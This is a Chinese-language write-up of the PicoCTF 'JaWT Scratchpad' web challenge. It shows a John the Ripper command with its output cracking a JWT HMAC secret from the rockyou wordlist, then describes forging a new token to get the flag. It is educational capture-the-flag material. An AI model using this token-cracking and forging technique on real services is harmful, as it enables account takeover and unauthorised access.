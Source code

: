 ```yaml
---
title: PicoCTF - JaWT Scratchpad
tags: [PicoCTF, CTF, Web]

---
```


# PicoCTF - JaWT Scratchpad
## Background
[NTUCNS - HW3 - JWT Authentication](https://hackmd.io/JO7xByQgQWK67eU0goHMeA?view#c)

## Recon
這一題蠻有趣的，有結合其他東西當作解題的基礎，先看JWT的token，decode過後的結果表示：
![](https://hackmd.io/_uploads/S1B-01POh.png)

也就是說，token只會隨著payload而變動，所以也沒有辦法用解public key的方式重新簽署文件，另外用alg=none也會出現Authentication failed，不過作者有在網頁中有給出提示，用[John](https://github.com/magnumripper/JohnTheRipper)，看起來就是用john-the-ripper解出token password

## Exploit - Brute Force
1. Brute Force Password
    ```bash!
    $ cat jwt.txt
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaGhoIn0.j1yd-PJbjNraLhhBAxZBD2C1EVIyHqlnvKh_l-iVKG8%
    $ ./john.exe ../jwt.txt --wordlist=../rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ilovepico        (?)
    1g 0:00:00:02 DONE (2023-06-26 18:42) 0.3673g/s 2720Kp/s 2720Kc/s 2720KC/s ilovetitoelbambino..ilovejesus71
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
    Token Password: `ilovepico`
2. Check password & Construct New Token
![](https://hackmd.io/_uploads/BkjwMxDOh.png)

3. Get Flag
![](https://hackmd.io/_uploads/SJ85fxvun.png)


## Reference
[ pico2019 JaWT Scratchpad ](https://youtu.be/Ug7qTzFuZ9o)